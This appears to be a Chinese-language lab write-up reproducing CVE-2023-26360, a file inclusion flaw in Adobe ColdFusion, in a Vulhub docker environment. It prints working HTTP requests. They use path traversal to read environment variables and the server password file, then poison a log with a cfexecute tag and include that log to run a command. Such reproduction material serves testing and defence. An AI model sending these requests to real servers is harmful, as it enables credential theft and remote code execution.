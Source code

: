 # Adobe ColdFusion 本地文件包含漏洞 CVE-2023-26360

## 漏洞描述

Adobe ColdFusion是美国Adobe公司的一款动态Web服务器产品，其运行的CFML（ColdFusion Markup Language）是针对Web应用的一种程序设计语言。

Adobe ColdFusion 2018 Update 15 和 2021 Update 5 版本及以前，存在一处文件包含漏洞。攻击者可以利用该漏洞在服务器上执行任意代码。

参考链接：

- [https://xz.aliyun.com/t/13392](https://xz.aliyun.com/t/13392)

## 环境搭建

Vulhub启动一个Adobe ColdFusion 2018.0.15服务器：

```
docker compose up -d
```

等待一段时间后环境启动成功，访问`http://your-vps-ip:8500/CFIDE/administrator/index.cfm`，输入密码`vulhub`，即可成功安装Adobe ColdFusion。

![](../Web应用漏洞/images/Adobe%20ColdFusion%20本地文件包含漏洞%20CVE-2023-26360/image-20240226153449288.png)

## 漏洞复现

发送如下请求即可读取文件`/proc/self/environ`：

```
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/iedit.cfc?method=foo&_cfclient=true HTTP/1.1
Host: your-vps-ip:8500
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 82
Content-Type: application/x-www-form-urlencoded

_variables={"_metadata":{"classname":"../../../../../../../../proc/self/environ"}}
```

可以在返回包中找到Adobe ColdFusion的根目录`/opt/coldfusion/cfusion`：

![](../Web应用漏洞/images/Adobe%20ColdFusion%20本地文件包含漏洞%20CVE-2023-26360/image-20240226153705716.png)

从`../../../../../../../../opt/coldfusion/cfusion/lib/password.properties`中读取服务器密码：

![](../Web应用漏洞/images/Adobe%20ColdFusion%20本地文件包含漏洞%20CVE-2023-26360/image-20240226153740311.png)

想要利用文件包含漏洞执行任意代码，需要先发送如下请求来写入CFM脚本：

```
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/iedit.cfc?method=foo&_cfclient=true HTTP/1.1
Host: your-vps-ip:8500
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 67
Content-Type: application/x-www-form-urlencoded

_variables=<cfexecute name='id' outputFile='/tmp/awesome_poc' ></cfexecute>
```

然后包含日志文件，执行该CFM代码：

```
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/iedit.cfc?method=foo&_cfclient=true HTTP/1.1
Host: your-vps-ip:8500
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 111
Content-Type: application/x-www-form-urlencoded

_variables={"_metadata":{"classname":"../../../../../../../../opt/coldfusion/cfusion/logs/coldfusion-out.log"}}
```

![](../Web应用漏洞/images/Adobe%20ColdFusion%20本地文件包含漏洞%20CVE-2023-26360/image-20240226153957320.png)

可见，`id`命令的执行结果已经被写入`/tmp/awesome_poc：

![](../Web应用漏洞/images/Adobe%20ColdFusion%20本地文件包含漏洞%20CVE-2023-26360/image-20240226153931349.png)
